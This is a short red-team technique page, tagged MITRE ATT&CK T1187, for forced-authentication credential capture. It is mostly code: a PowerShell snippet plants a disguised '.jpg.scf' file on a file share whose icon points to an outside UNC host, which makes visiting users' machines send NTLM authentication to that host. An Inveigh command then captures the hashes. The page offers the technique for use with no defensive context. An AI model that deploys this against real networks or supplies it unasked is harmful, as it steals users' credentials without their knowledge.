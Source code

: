 # Creat scf File

MITRE ATT&CK Technique: [T1187](https://attack.mitre.org/wiki/Technique/T1187)

  $IPAddress = “192.168.1.1” # unc server
  $Location = “\\FILESERVER\FilesShare” # file server
  "[Shell]" > $Location\~T0P3492.jpg.scf
  "Command=2" >> $Location\~T0P3492.jpg.scf;
  "IconFile=\\$IPAddress\remote.ico" >> $Location\~T0P3492.jpg.scf
  "[Taskbar]" >> $Location\~T0P3492.jpg.scf
  "Command=ToggleDesktop" >> $Location\~T0P3492.jpg.scf

## Run Inveigh to Receive the Authentication Attempts

PS> Invoke-Inveigh -FileOutputDirectory C:\Temp\ -FileOutput Y -HTTP Y -NBNS Y -Tool 1
https://github.com/Kevin-Robertson/Inveigh
